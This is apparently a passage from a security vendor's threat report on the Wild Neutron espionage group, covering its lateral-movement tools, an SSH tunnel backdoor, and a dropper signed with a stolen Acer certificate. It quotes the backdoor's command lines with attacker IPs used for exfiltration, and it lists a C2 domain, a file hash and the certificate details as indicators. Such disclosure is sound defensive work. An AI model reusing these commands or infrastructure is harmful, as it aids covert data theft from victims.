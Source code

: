 

Lateral movement
After installing the main backdoor and establishing initial C2 communication, the attackers use a range of different tools to extract sensitive data and control the victim’s machine. These tools include a password harvesting trojan, a reverse-shell backdoor and customized implementations of OpenSSH, WMIC and SMB. Sometimes, they only drop a simple perl reverse shell and use various collection methods to retrieve credentials from a set of machines, escalate privileges, and fan out across a network from there. Besides these tools, there is also a number of small utility modules of different functionalities, from loaders and configuration tools, to file shredders and network proxies.
It’s also worth noting that this threat actor heavily relies on already existing code, using publicly available open source applications, as well as Metasploit tools and leaked malware sources, to build its own toolset. Some of these tools are designed to work under Cygwin and come together with the Cygwin API DLL, which may suggest that the attackers feel more comfortable when working in a Linux-like environment.
SSH tunnel backdoor
During the 2014/2015 attacks, we observed the attackers deploying custom, OpenSSH-based Win32 tunnel backdoors that are used to exfiltrate large amounts of data in a reliable manner. These tunnel backdoors are written as “updt.dat” and executed with two parameters, -z and -p. These specify the IP to connect to and the port. Despite the port number 443, the connection is SSH:

/d /u /c updt.dat -z 185.10.58.181 -p 443
/d /u /c updt.dat -z 46.183.217.132 -p 443
/d /u /c updt.dat -z 217.23.6.13 -p 443

For authentication, the SSH tunnel backdoor contains a hardcoded RSA private key.
Stolen certificate
During the 2015 attacks, Wild Neutron used a dropper signed with a stolen, yet valid Acer Incorporated certificate.

Acer signature on Wild Neutron dropper
The abused certificate has the following properties:
Serial: 5c c5 3b a3 e8 31 a7 df dc 7c 28 d5 15 8f c3 80
Thumbprint: 0d 85 91 41 ee 9a 0c 6e 72 5f fe 6b cf c9 9f 3e fc c3 fc 07
The dropper (dbb0ea0436f70f2a178a60c4d8b791b3) appears to have been signed on June 15, 2015. It drops a Jripbot backdoor as “IgfxUpt.exe” and configures it to use the C&C “app.cloudprotect[.]eu”.
#WildNeutron used a dropper signed with a stolen, yet valid Acer Incorporated certificateTweet
We have worked with Symantec, Verisign and Acer to revoke the compromised certificate.
Victims and statistics
The Wild Neutron attacks appear to have a highly targeted nature. During our investigation, we have been able to identify several victims across 11 countries and territories:

France
Russia
Switzerland
Germany
Austria
Palestine
Slovenia
Kazakhstan
UAE
Algeria
United States
